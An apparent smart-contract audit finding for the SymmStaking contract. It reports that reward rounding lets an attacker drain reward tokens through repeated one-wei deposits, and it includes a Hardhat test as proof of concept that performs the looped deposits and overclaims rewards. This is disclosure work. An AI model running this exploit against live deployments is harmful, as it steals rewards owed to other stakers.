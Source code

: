 Passive Lilac Capybara

High

# Precession loss in Stacking allows to drain rewards

### Summary

Currently the Staking contract accepts different tokens as rewards. In case this reward token is configured to a token like WBTC, which has a wei price of > 0, it is possible to drain reward tokens from the staking contract.

### Root Cause

The root cause for this issue is scaling rewards by 1e18 before dividing by total supply:

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L200

Total supply is increased by depositing tokens in a loop

### Internal Pre-conditions

1. User deposits tokens into staking contract

### External Pre-conditions

Low GAS price on Base, high price of WBTC

### Attack Path

1. Attacker stakes tokens into symm staking
2. After some time, the attacker deposits the same amount of tokens in a loop, as many time as possible
3. For every Iteration of the loop, the attacker will gain one wei of reward tokens
4. He withdraws all deposited tokens in the loop, as well as claims rewards for instant profit

### Impact

Drain reward contract. / Instant rewards without having to stake for more time.

In case 1 wei of wbtc is worth more then one deposit call on base in gas fees, the attack becomes profitable.

### PoC

Add following test to the staking tests. It will show addional 100 wei of wbtc rewards claimed, without commiting capital.
 
```js
it("drain 100 rewards", async function () {
			
			const depositUser1 = "302400"
			const depositUser2 = "1"
			const tdepositUser2 = "100"

			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositUser1)
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), tdepositUser2)

			await symmStaking.connect(user1).deposit(depositUser1, user1.address)

			const rewardAmount = "604800"
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])
			
			await time.increase(200)
			
			for (let i = 1; i <= 100; i++) {
				await symmStaking.connect(user2).deposit(depositUser2, user2.address)
			}
			
			const contractBalanceUser2 = await symmStaking.balanceOf(user2.address)
			await symmStaking.connect(user2).withdraw(contractBalanceUser2, user2.address)
			
			

			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			const user1Claimed = user1BalanceAfter - user1BalanceBefore
			
			const user2BalanceBefore = await usdtToken.balanceOf(user2.address)
			await symmStaking.connect(user2).claimRewards()
			const user2BalanceAfter = await usdtToken.balanceOf(user2.address)
			const user2Claimed = user2BalanceAfter - user2BalanceBefore
			const contractBalanceUser1 = await symmStaking.balanceOf(user1.address)
			
			expect(contractBalanceUser1).to.equal(depositUser1)

			const contractRewardBalance = await usdtToken.balanceOf(symmStaking)
			
			//Rewards should be 200 after 200 sec.
			//Test fails with 301 instead of 200
			expect(user1Claimed).to.equal(200)
		})
```

### Mitigation

_No response_